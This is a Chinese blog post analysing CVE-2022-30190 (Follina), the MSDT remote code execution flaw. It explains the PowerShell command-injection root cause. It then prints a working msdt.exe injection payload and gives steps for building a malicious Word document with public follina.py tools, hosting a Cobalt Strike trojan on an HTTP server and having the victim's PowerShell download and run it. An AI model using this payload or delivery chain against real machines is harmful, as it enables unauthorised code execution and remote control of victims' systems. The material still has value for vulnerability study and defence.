






# CVE-2022-30190：MSDT 远程代码执行 - 徐野子 - 博客园

> 原文：[`www.cnblogs.com/XuyeZi/p/16462462.html`](https://www.cnblogs.com/XuyeZi/p/16462462.html)

## 漏洞描述

2022 年 5 月 27 日，来自日本东京的网络安全研究团队 nao_sec 发现了一个从白俄罗斯 IP 上传到 VirusTotal 的恶意 Word 文档。由白俄罗斯的一个 IP 地址上传。恶意文档从 Word 远程模板功能从远程 Web 服务器检索 HTML 文件，通过 ms-msdt MSProtocol URI 方法来执行恶意 PowerShell 代码。感染过程利用 Windows 程序 msdt.exe，该程序用于运行各种 Windows 疑难解答程序包。此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可以使用 ‘ms-msdt’ URI 执行任意 PowerShell 代码。

### 漏洞状态

| 漏洞细节 | 漏洞 POC | 漏洞 EXP | 在野利用 |
| --- | --- | --- | --- |
| 公开 | 存在 | 存在 | 存在 |

### 漏洞等级

| 风险级别 | CVSS 评分 | 攻击复杂度 | 可用性 |
| --- | --- | --- | --- |
| 高危 | 7.8 | 低 | 高 |

## 漏洞原理

由于 MSDT 工具和 Powershell 的“C:\Windows\diagnostics\system\PCW\TS_ProgramCompatibilityWizard.ps1”脚本交互，相关的`IT_BrowseForFile`参数存在命令注入，最终的调用 PowerShell 动态执行。
观察 TS_ProgramCompatibilityWizard.ps1 脚本的代码：


Get-DiagInput 用于从用户获取输入信息。这里获取传入的 IT_BrowseForFile 参数 并赋值给了 $selectedProgram 变量。

而后调用 Test-Selection 方法来对 $selectedProgram 进行检测：



该函数首先使用 test-path 命令来对路径进行检测，以保证路径存在。然后要求路径的扩展名为 exe 或 msi。

但是 test-path 对于使用`/../../`返回到根路径之外的任意路径会返回 True，比如下面的：

因为这里以 `/` 开头，表示当前盘符的根目录，而`/../../`超出了范围，所以在任何情况下都会返回 true（也可以像 c:....\test.exe 这样写）

然后从 $selectedProgram 里提取文件名，并过滤$符号，防止代码注入。

由于原来的脚本中直接使用 `"$"`，该 `"$"` 实际会在过滤前被 PowerShell 引擎解析，所以无法起到过滤`$`字符的作用。

脚本的最后，使用了 Update-DiagRootCause 命令，该用于报告 root cause 的状态。注释中写道该命令会触发调用 RS_ 脚本，-parameter 指定的字典会被作为参数传给脚本。导致第二次调用 RunScript() 方法，并且参数中的 -TargetPath 可控，进而触发了漏洞。


**Payload**

```
msdt.exe /id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'YwBhAGwAYwA='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe" 
```



## 漏洞复现

**payload 来源**

[`github.com/chvancooten/follina.py`](https://github.com/chvancooten/follina.py)

```
python .\follina.py -t docx -m binary -b calc.exe 
```



**利用思路：**

1.目标点击 world
2.world 加载 HTML 的 MSDT 载荷
3.MSDT 执行 powershell
3.通过 Powershell 下载 CS 马并执行


## CS 上线

**payload 来源**

```
https://github.com/JohnHammond/msdt-follina 
```

### 将 cs 生成的木马挂载到站点

```
python3 -m http.server 8080 
```

### 修改脚本 payload


### 生成恶意文档

```
python3 follina.py -i your-ip -p your-port -r 6000 
```

### 目标点击，CS 上线

